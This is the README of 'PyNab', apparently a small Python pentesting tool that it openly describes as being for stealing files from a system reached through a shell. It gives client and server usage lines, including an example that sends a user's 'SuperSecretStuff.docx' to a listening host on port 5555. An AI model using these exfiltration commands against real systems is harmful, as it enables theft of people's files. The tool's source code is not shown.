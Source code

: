 # PyNab
##### A pentesting tool for easily stealing files
_Made with <3 By Dan Goodman, Signed 12/31/17_

_Works as a nifty file sharing tool too!_

---

Running this assumes you already know where the file is, this should be used through a shell after all. This is to make it easier than worrying about making sure you can SCP to a system.

The server is required to be run for every file sent, will eventually make it so the server has to be run only once to get multiple files.

Also currently only accepts one connection in

### Client:

Run like:

    clientNab.py IP PORT FILELOCATION

replacing `IP`, `PORT`, and `FILELOCATION` with the respective values

Example use:

    clientNab.py 192.168.1.30 5555 /Users/{some username}/Documents/SuperSecretStuff.docx

This will drop that file over to the root folder of where the `serverNab.py` file is running on the server.


### Server:

Run like:

    serverNab.py IP PORT

replacing `IP`, `PORT`, and `FILELOCATION` with the respective values

Example use:

    serverNab.py 129.168.1.45 5555

Make sure to run this before the client!